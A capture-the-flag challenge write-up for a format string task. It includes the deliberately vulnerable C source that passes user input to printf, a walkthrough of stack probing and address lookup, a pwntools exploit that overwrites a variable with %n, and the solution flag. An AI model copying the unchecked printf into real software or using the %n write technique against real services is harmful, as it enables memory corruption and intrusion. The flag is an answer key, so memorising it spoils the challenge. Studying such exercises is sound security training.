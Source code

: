 # Format Var

Difficulty Level: Medium
 
With the power of `%n`, you can now overwrite anything you want!
 
Connect via `nc challenge.ctf-fun.xyz 14016`

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- `%n` writes the total number of bytes of your input (excluding %n itself.) So if you give it `AAAA%n`, it will write 4 bytes to the next stack value. 

check out the format string exploitation section in this [article](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)


## Deployment

```bash
cd service
sudo ./formatvar.sh &
```

## Solution
Looking at the source code, we need to make target equal to 1234 to print the flag.

```c
#include <stdio.h>
#include <stdlib.h>

volatile int target = 0;

void print_flag() {
	char flag[64];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
		printf("Flag File is Missing.\n");
		exit(0);
	}

	fgets(flag,sizeof(flag),f);
	printf("%s\n", flag);
}

void vuln() {
	char buffer[32] = {0x00};

	printf("%s\n", "Format my variable to better");
	fgets(buffer, sizeof(buffer), stdin);

	printf(buffer);

	if (target == 1234) {
		printf("%s\n", "Well done!");
		print_flag();
	} else {
		printf("Target is %d :(\n", target);
	}
}


int main(int argc, char **argv) {
	setvbuf(stdin,NULL,2,0);
	setvbuf(stdout,NULL,2,0);
	setvbuf(stderr,NULL,2,0);
	vuln();
}
```

%n allows you to write the total amount of bytes to a location of your choosing. First find out which position in the stack is our input. This can be found by sending AAAA-%x%x%x%x and seeing which position contains 0x41414141

```
$ nc challenge.ctf-fun.xyz 14016
Format my variable to better
AAAA-%x%x%x%x
AAAA-20f7f775c0804923741414141
Target is 0 :(
```

From that we see that the 4th value of the stack points to our input.
Now we need to figure out where target is located this is done by using `objdump -t ./formatvar | grep target` (0x0804c034)

```bash
$ objdump -t formatvar | grep target
0804c034 g     O .bss   00000004              target
```

Once we got that done we can start creating our payload. 

I will be using direct access by doing `%4$x` instead of %x which will print out the 4th value of the stack instead of the next. 
Also when we do `%100x` we will get the next stack value and pad it with spaces to form a 100 byte output. 

With these two techniques we can use it to write 1234 to target.


```python
from pwn import *

def main():
	target = p32(0x0804c034)

	var = 1229 # 1234 - 4

	# python -c "print '\x34\xc0\x04\x08-%1229x%4\$n'" | ./formatvar
	payload = target + b'-' + b'%1229x' + b'%4$n'

	#io = process('./formatvar')
	io = remote("challenge.ctf-fun.xyz", 14016)
	io.sendline(payload)
	io.interactive()

if __name__ == '__main__':
	main()
```
### Flag
19C4{N0t_E4sy_A5_1234}